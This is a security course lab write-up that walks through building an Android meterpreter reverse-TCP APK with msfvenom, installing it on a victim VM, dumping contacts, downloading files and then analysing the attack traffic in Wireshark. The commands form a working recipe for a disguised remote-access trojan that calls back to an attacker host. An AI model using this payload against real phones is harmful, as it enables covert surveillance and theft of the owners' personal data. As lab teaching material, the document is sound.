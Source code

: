 # Lab 7: Developing Mobile Malware

## Set-up

Set up two VMs, keep the attacker and victim machine within the same subnet.

`````{tabbed} Attacker: Ubuntu

IP address: `10.0.2.15`

Install [Metasploit](https://www.metasploit.com/) Module


```sh
$ curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall
$ chmod 755 msfinstall
$ ./msfinstall
```

Install `adb` to send `.apk` files to the android VM

```
$ sudo apt install adb
```

Install [WireShark](https://www.wireshark.org/) to capture the traffic between two machines:

```
$ sudo add-apt-repository ppa:wireshark-dev/stable
$ sudo apt-get install wireshark
```

`````

`````{tabbed} Victim: Android

IP address: `10.0.2.11`

Run an Android virtual machine as [what seed project requests to do](https://seedsecuritylabs.org/Labs_16.04/Mobile/). After the VM installed, add some entries in `Contacts` app (e.g. Name: KMR, Phone: 114-514-1919)

````{note}
The IP address of the Android VM can be obtained by running `Terminal Emulator` app and typing

```
$ ifconfig
```

````
`````


## Explore Metasploits 

```
$ msfconsole
msf >  search type:payload platform:android
```

Create a reversed TCP [^ex]

```
msf > msfvenom -p android/meterpreter/reverse_tcp LHOST=10.0.2.15 LPORT=4444 -f raw -o reverse_tcp.apk
```

Start a handler:

```
msf > use exploit/multi/handler
msf > set payload android/meterpreter/reverse_tcp
msf > set lhost 10.0.2.15
msf > set lport 4444
msf > exploit
```

Send the `reverse_tcp.apk` to the vicitm machine and install it:

```
$ adb connect 10.0.2.11
$ adb install reverse_tcp.apk
```

From the victim Android, we start the installed app `MainActivity`

![](victim.png)

```{warning}
No obvious response after double-clicking, but actually it is running in the backgroud.
```

Then we can see the session information from the attacker VM:

![Connected successfully](session.png)

Press <kbd>Enter</kbd> and go into the `meterpreter` console.

### Basic Commands

Check if the device is rooted

```
meterpreter > check_root
```

See the current directory where you are

```
meterpreter > pwd
/data/user/0/com.metasploit.stage/files
```

Dump all contacts

```
meterpreter > dump_contacts
[*] Fetching 3 contacts into list
[*] Contacts list saved to: contacts_dump_20210527000741.txt
```

Let's check it:

![Dump all contacts information from the victim Android](contacts.png)

````{seealso}
More commands can be found by:

```
meterpreter > help
```

Or see the [Metasploit Cheat Sheet](https://pentestmag.com/metasploit-cheat-sheet/)
````

[^ex]: https://www.hackers-arise.com/post/2018/07/06/metasploit-basics-part-13-exploiting-android-mobile-devices



## Task: steal sensitive files

For example, get the DNS configurations on the victim mobile:

```
meterpreter > cat /etc/hosts
127.0.0.1       localhost
::1             ip6-localhost
```

Download it to the attacker machine

```
meterpreter > download /etc/hosts
```


## Monitor Traffic

Launch `Wireshark` with root privilege:

```
$ sudo wireshark
```

When starting `exploit` in [Explore Metasploits](#explore-metasploits), `Wireshark` captures the TCP traffic between the attacker and the victim. For example, here is the packets that the reversed TCP connection establishes (Note that `10.0.2.15:4444` is the malicious host):

![](./establish.png)

We dump the captured traffic into an `.pcap` file, which can be opened with `wireshark`. for example:

{download}`sample.pcap`

which records all network traffic during the attack, try to distinguish which traffics are related to the attack process.